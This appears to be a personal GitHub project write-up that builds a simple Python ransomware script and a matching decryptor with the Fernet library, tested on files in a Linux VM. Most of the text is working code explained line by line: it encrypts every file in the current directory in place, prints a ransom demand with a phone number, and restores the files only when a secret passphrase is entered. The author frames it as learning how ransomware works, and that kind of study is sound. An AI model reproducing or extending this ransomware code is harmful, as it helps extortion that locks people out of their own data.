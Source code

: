 <h3>Ransomware</h3> 

Ransomware deployment using Python scripting

<h3>Objective</h3> 

As ransomware attacks have been on a steady upward trend, I wanted to take the time to understand the mechanics of one of the most popular cyberattacks methods.

<h3>Skills Learned</h3> 

- Python scripting

- Cryptography

<h3>Tools Used</h3> 

- Python

- Linux VM  

- Fernet

Steps

First we are going to spin up an Ubuntu VM

Next we will create a directory with several files that we are going to test our ransomware on.

So we insert into the CLI "mkdir ransomware101" to create a directory. 

In the directory we will run "echo "file content" > filename.txt" //  We will run this serveral times to create files: file.txt, file2.txt, file3.txt.

Next we will create the malware script.

<h3>Creating the Ransomware Script</h3>

![Encryption](https://github.com/user-attachments/assets/edf5a8c4-e0b2-4010-b4cf-8c5a9ea1bffd)

Ref 2: Creating The Encryption Script (MALWARE.py) 

The ransomware script will be titled, "MALWARE.py".

To make this project easier to read I will briefly notate each line of code seperated by "//" to explain its utility in the script.

#!/usr/bin/env python3 // First we have to include the shebang for our Python script. This tells Linux to run the file as a Python script. 
 
Import os // Allows Python to interact with the OS.

from cryptography.fernet import Fernet // This imports Fernet so we can use its encryption 128bit encryption abilities. For the script to run properly we need to run "pip install crpytography" in the Linux terminal to install the necessary Python modules.

files = [] // This will create an empty list called "files".

for file in os.listdir() // This is a for loop, this will list all the files in the directory.

if os.path.isfile(file) // If object is a file, add to the file list

if file == "MALWARE.py" or file == "thekey.key" or file == "DECRYPT.py": // We are about to create a conditional statement to exclude these files from the list

continue // This tells the script to continue to the next statement and skip the current iteration, meaning the files in the if statement above will be excluded from the rest of the script. 

files.append(file) // This will append(add) any file targeted in the for loop to the files list.

print(files) // Will display the "files" list in the terminal.

key = Fernet.generate_key() // This will generate the encryption key.

with open("thekey.key", "wb") as thekey: // This line uses the open function to open the file in write mode and reference the file as "thekey" throughout the script.

for file in files: // This is creating a loop for the file's in the "files" list created earlier.

with open(file, "rb") as thefile: // This line will open the file's in the list in read binary mode and assigned the alias "thefile".

contents = thefile.read() // We have now made contents a alias to the file. This will allow us to plug in the data into the Fernet module.

contents_encrypted = Fernet(key).encrypt(contents) // This line encrypts the contents variable with the Fernet key.

with open(file, "wb") as thefile: // Sets the script to write back to "thefile".

thefile.write(contents_encrypted) // Writes the "contents_encrypted" to the file.

print("All of your files have been encrypted. Contact 890-589-5542 to decrypt your data, for a price") // This is displayed in the terminal when the Python script is executed


<h3>Decryption Sequence</h3> 


![Decryption](https://github.com/user-attachments/assets/5d1837e5-909c-4cf7-9fe0-a973e5fd3e94)

Ref 2: Creating The Decryption Script (DECRYPT.py)

The first half of the script from the beginning up until the "print(files)" line is the same as the MALWARE.py script, I will not reiterate these lines for obvious reasons.

with open("thekey.key", "rb") as key: // opens key file in read binary mode making "key" a variable.

secretkey = key.read() // The "secretkey" equals the contents of the file variable assigned as "key", the ".read" will make the encryption key functional in the decryption portion of the script.

secretphrase = "112113114" // This is going to be the secret password that decrypts the files.

user_phrase = input("Enter the secret phrase to decrypt your files\n") // input is going to allow the user to type the password into the terminal.  

if user_phrase == secretphrase: // If the password inputted by the user is equal to the secret phrase we assigned, the nested for loop will execute.

The code of the for loop is going to remain very similar to the for loop in the MALWARE.py script with a few small changes. 

contents_decrypted = Fernet(secretkey).decrypt(contents) // This decrypts the files using the decryption key generated by Fernet. 

thefile.write(contents_decrypted) // The contents are now written back to the file.

print("Files decrypted, thank you for your business") // the last sequence of our if statement will print this message informing the user that their files have been decrypted.

else: // If  the "if" statement is false the else statement will run.

print("Wrong passphrase") // When the user inputs an incorrect password upon being prompted for the secret phrase, this output will print in the terminal.


Lets test our scripts!

![results](https://github.com/user-attachments/assets/ef007d90-74cf-40ae-b97d-67d0827bd6ac)

Ref 3: Execution both the Encryption/Decryption Scripts

cat file2.txt // This will display the contents of a the files.

cat thekey.key // Here I am showing the 128bit encryption key generated by Fernet. This file is excluded from the file list that becomes encrypted in our MALWARE.py script because 
we do not want the encryption key getting encrypted.

python3 MALWARE.py // We have now executed our Python script in the directory. 

You now see a list of the files encrypted and the message we left for the user on who to contact to decrypt the files, for a price.

cat file2.txt // As you can see, the data in file is now encrypted.

python3 DECRYPT.py // Now that the files have been encrypted lets decrypt them with our decryption script.

The script prompts us for the secret phrase which was set in the DECRYPT.py script.

If you input the correct secret phrase, a message appears thanking us for our business, and that the files have been decrypted.

cat file2.txt // Now when we check our file we have the original contents of the file because our data has been decrypted.
